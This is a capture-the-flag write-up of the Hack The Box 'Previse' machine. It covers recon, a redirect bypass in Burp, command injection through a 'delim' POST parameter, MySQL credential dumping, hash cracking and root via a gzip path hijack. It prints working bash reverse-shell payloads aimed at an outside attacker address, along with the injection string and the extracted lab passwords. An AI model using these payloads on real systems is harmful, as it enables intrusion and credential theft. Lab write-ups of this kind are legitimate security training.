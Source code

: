 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/previse%20logo.png)


## nmap all ports
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/nmap%20all%20ports.png)

## nmap services + versions
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/nmap%20services%20and%20versions.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/apache%20release%20date.png)

## gobuster
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/gobuster%20main%20redirects.png)
normally redirects have a size of 0 
but here redirects hava a size > 0
intercept redirects with burpsuite

## domain
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/main%20domain%20redirect%20to%20login.php.png)

## burpsuite
### request
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/burpsuite%20request%20redirect.png)

### response
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/burpsuite%20intercept%20response%20redirect.png)

### response change status code to 200 OK and forward
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/burpsuite%20change%20status%20code.png)

### new domain with login bypassed but immediately redirect to login.php
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/login%20dashboard.png)

### lets make an account --> turn intercept of
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/create%20account.png)

### login
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/login%20to%20new%20account.png)

### login dashboard
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/login%20dashboard%201.png)

### login files
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/login%20files.png)

### dowload SITEBACKUP.ZIP and inspect user input

````
grep '$_' * | grep -v "SESSION\|SERVER"

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/server%20backup%20user%20input%20exec.png)

### python scripts executes post command with parameter delim
````
logs.php:$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");

`````

### also parameter delim
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/burpsuite%20command%20execution.png)

### add sleep command --> response is waiting for 5 seconds
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/burpsuite%20command%20execution%20sleep.png)

### create reverse shell
post data
```
delim=comma;bash -c 'bash -i >& /dev/tcp/10.10.14.11/1111 0>&1'

//url encoded

delim=comma;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.11/1111+0>%261'

```

### get shell as www-data
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/burpsuite%20get%20reverse%20shell.png)

### always look first in config files on servers
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/config%20file%20reveals%20password%20mysql.png)

````mysql

root:mySQL_P@ssw0rd!:)


`````

### connect to mysql
````
mysql -u root -p


`````

### mysql
````
show databases;

use previse;

show tables;

select * from accounts;

select * from accounts where id = 1;

select TO_BASE64(password) from accounts where id = 1;



`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/mysql%20extract%20info.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/mysql%20get%20password.png)

### password hash to base64 because of special charaters in password
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/mysql%20convert%20to%20base64.png)
````
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.

JDEk8J+ngmxsb2wkRFFwbWR2bmI3RWV1TzZVYXFSSXRmLg==

`````

### hashcat
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/hashcat.png)
````
m4lwhere:ilovecody112235!

`````

### ssh with new creds
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/ssh%20m4lwhere.png)

### user.txt
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/user.txt.png)

### root.txt error stdout not printing
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/root.txt.png)

### gzip reverse shell
````bash

bash -i >& /dev/tcp/10.10.14.1111/1111 0>&1

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/root%20reverse%20shell%20gzip.png)

### root shell working
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Previse/screenshots/root%20shell%20working.png)
XXXXXXXXXXXX